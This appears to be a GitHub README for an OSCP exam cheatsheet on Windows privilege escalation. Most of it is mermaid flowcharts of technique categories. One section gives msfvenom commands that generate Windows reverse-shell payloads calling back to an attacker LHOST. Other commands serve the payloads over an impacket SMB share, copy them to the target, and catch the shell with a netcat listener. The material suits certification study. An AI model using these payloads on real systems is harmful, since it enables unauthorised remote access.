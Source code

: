 # OSCP-cheatsheet
OSCP cheatsheet (testing mermaid)




### Manual privilege escalation
```mermaid
%%{
  init: {
    "theme": "default",
    "themeVariables": {
      "background": "#ffffff",
      "lineColor": "#000000",
      "primaryColor": "#ffffff",
      "primaryBorderColor": "#000000",
      "fontSize": "14px"
    }
  }
}%%

flowchart TB
  accTitle: Service exploits
  accDescr: A flowchart showing the flow of service exploits with decision points and colored arrows.

  Start([Manual privilege escalation]) --> Service_Exploits[Service Exploits]
  Start([Manual privilege escalation]) --> Registry[Registry]
  Start([Manual privilege escalation]) --> Passwords[Passwords]
  Start([Manual privilege escalation]) --> Scheduled_Tasks[Scheduled Tasks]
  Start([Manual privilege escalation]) --> Insecure_GUI_Apps[Insecure GUI Apps]
  Start([Manual privilege escalation]) --> Startup_Apps[Startup Apps]
  Start([Manual privilege escalation]) --> Token_Impersonation[Token Impersonation]
  Start([Manual privilege escalation]) --> Privilege_Escalation_Scripts[Privilege Escalation Scripts]
  
  %% --- Node coloring ---
  classDef green fill:#1b6e2d,stroke:#59e078,color:#fff
  classDef yellow fill:#e6b800,stroke:#e6b800,color:#000

  class Service_Exploits yellow
  class Registry yellow
  class Passwords yellow
  class Scheduled_Tasks yellow
  class Insecure_GUI_Apps yellow
  class Startup_Apps yellow
  class Token_Impersonation yellow
  class Privilege_Escalation_Scripts yellow

  %% --- Link coloring ---
  %% linkStyle 0 stroke:#0f0,stroke-width:2px
```
#### 1- reverse shell generation and file transfer

download [[AccessChk]] as following 
kali side
```powershell
wget https://download.sysinternals.com/files/AccessChk.zip
```

unzip it 
```powershell
unzip AccessChk.zip
```

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f exe -o reverse.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f exe -o reverse.msi
```

**Start [file transfer using SMB server](file%20transfer%20using%20SMB%20server)**
**kali side**
```powershell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP):
```powershell
#change C:\PrivEsc\reverse.exe to the target directory + file name
copy \\<% tp.frontmatter["LHOST"] %>\kali\reverse.exe C:\PrivEsc\reverse.exe
copy \\<% tp.frontmatter["LHOST"] %>\kali\reverse.msi C:\PrivEsc\reverse.msi

# tranfering accesschk.exe
copy \\<% tp.frontmatter["LHOST"] %>\kali\accesschk\accesschk.exe C:\PrivEsc\accesschk.exe
```

Test the reverse shell by setting up a netcat listener on Kali:
```powershell
sudo nc -nvlp 135
```

we can test the reverse.exe shell by running it:
```powershell
C:\PrivEsc\reverse.exe
```

#### 2- [Service Exploits](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/2-%20Service%20Exploits.md)
```mermaid
%%{
  init: {
    "theme": "default",
    "themeVariables": {
      "background": "#ffffff",
      "lineColor": "#000000",
      "primaryColor": "#ffffff",
      "primaryBorderColor": "#000000",
      "fontSize": "14px"
    }
  }
}%%

flowchart TB
  accTitle: Service exploits
  accDescr: A flowchart showing the flow of service exploits with decision points and colored arrows.

  Start([Manual privilege escalation]) --> Service_Exploits[Service Exploits]
  Service_Exploits --> Insecure_Service_Permissions[Insecure Service Permissions]
  Service_Exploits -->  Unquoted_Service_Path[Unquoted Service Path]
  Service_Exploits -->  Weak_Registry_Permissions[Weak Registry Permissions]
  Service_Exploits -->  Insecure_Service_Executables[Insecure Service Executables]
  %% --- Node coloring ---
  classDef green fill:#1b6e2d,stroke:#59e078,color:#fff
  classDef yellow fill:#e6b800,stroke:#e6b800,color:#000

  class Service_Exploits green
  class Insecure_Service_Permissions yellow
  class Unquoted_Service_Path yellow
  class Weak_Registry_Permissions yellow
  class Insecure_Service_Executables yellow
  %% --- Link coloring ---
  linkStyle 0 stroke:#0f0,stroke-width:2px
```


#### 3- [Registry](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/3-%20Registry.md)
```mermaid
%%{
  init: {
    "theme": "default",
    "themeVariables": {
      "background": "#ffffff",
      "lineColor": "#000000",
      "primaryColor": "#ffffff",
      "primaryBorderColor": "#000000",
      "fontSize": "14px"
    }
  }
}%%

flowchart TB
  accTitle: Service exploits
  accDescr: A flowchart showing the flow of service exploits with decision points and colored arrows.

  Start([Manual privilege escalation]) --> Registry[Registry]
  Registry --> AutoRuns[AutoRuns]
  Registry -->  AlwaysInstallElevated[AlwaysInstallElevated]

  %% --- Node coloring ---
  classDef green fill:#1b6e2d,stroke:#59e078,color:#fff
  classDef yellow fill:#e6b800,stroke:#e6b800,color:#000

  class Registry green
  class AutoRuns yellow
  class AlwaysInstallElevated yellow
  
  %% --- Link coloring ---
  linkStyle 0 stroke:#0f0,stroke-width:2px
```


#### 4- [Password](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/4-%20Password.md)
```mermaid
%%{
  init: {
    "theme": "default",
    "themeVariables": {
      "background": "#ffffff",
      "lineColor": "#000000",
      "primaryColor": "#ffffff",
      "primaryBorderColor": "#000000",
      "fontSize": "14px"
    }
  }
}%%

flowchart TB
  accTitle: Service exploits
  accDescr: A flowchart showing the flow of service exploits with decision points and colored arrows.

  Start([Manual privilege escalation]) --> Passwords[Passwords]
  Passwords --> Registry[Registry]
  Passwords -->  Saved_Creds[Saved Creds]
  Passwords -->  SAM[Security Account Manager SAM]

  %% --- Node coloring ---
  classDef green fill:#1b6e2d,stroke:#59e078,color:#fff
  classDef yellow fill:#e6b800,stroke:#e6b800,color:#000

  class Passwords green
  class Registry yellow
  class Saved_Creds yellow
  class SAM yellow
  
  %% --- Link coloring ---
  linkStyle 0 stroke:#0f0,stroke-width:2px
```



